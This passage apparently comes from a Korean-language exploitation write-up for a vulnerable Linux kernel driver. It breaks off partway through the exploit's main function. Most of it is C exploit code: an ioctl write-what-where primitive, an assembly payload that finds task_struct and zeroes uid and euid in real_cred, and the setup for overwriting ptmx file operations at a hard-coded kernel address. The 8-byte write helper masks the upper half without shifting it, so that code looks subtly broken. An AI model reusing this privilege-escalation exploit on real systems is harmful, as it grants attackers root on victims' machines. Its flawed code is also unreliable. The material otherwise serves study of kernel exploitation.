 그리고, 취약 모듈에서 받는 값은 `4Byte`인 `unsigned long`형으로 캐스팅되어 쓰이기 때문에 `8Byte`를 쓸 수 있게 간단한 프리미티브 함수를 만들었다.

```c
void _write(int fd, unsigned long long address, unsigned long long value) {
        struct drv_req req;
        req.address = address;
        req.value   = value & 0xffffffff;
        ioctl(fd, IOCTL_FULL_WRITE, &req);

        req.address = address + 4;
        req.value = value & 0xffffffff00000000;
        ioctl(fd, IOCTL_FULL_WRITE, &req);
}
```

**Full Exploit Code**는 다음과 같다.

```c
/* arbitrary write primitive (write-what-where) trigger */
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include "drv.h"

void __attribute__((regparm(3))) payload() {
        asm(
                "pushq %rax;"                                   /* save Registers */
                "pushq %rcx;"
                "movq %rsp, %rax;"                              /* get SP */
                "movq $0xFFFFFFFFFFFFE000, %rcx;"               /* calc THREAD_SIZE */
                "andq %rcx, %rax;"                              /* calc thread_info */
                "movq (%rax), %rcx;"                            /* get task_struct */
                "movq 0x458(%rcx), %rax;"                       /* get real_cred */
                "movl $0, 0x04(%rax);"                          /* set  uid */
                "movl $0, 0x14(%rax);"                          /* set euid */
                "popq %rcx;"                                    /* restore Registers */
                "popq %rax;"
        );
}

void _write(int fd, unsigned long long address, unsigned long long value) {
	struct drv_req req;
	req.address = address;
	req.value   = value & 0xffffffff;
	ioctl(fd, IOCTL_FULL_WRITE, &req);

	req.address = address + 4;
	req.value = value & 0xffffffff00000000;
	ioctl(fd, IOCTL_FULL_WRITE, &req);
}

int main() {
	int fd, ptmx_fd;
	int uid;
	struct drv_req req;
	unsigned long long ptmx_fops = 0xffffffff81f148a0;

	fd = open(DEVICE_PATH, O_RDONLY);
	ptmx_fd = open("/dev/ptmx", O_RDWR);

	if (fd == -1) {
		perror("open");
		return -1;
```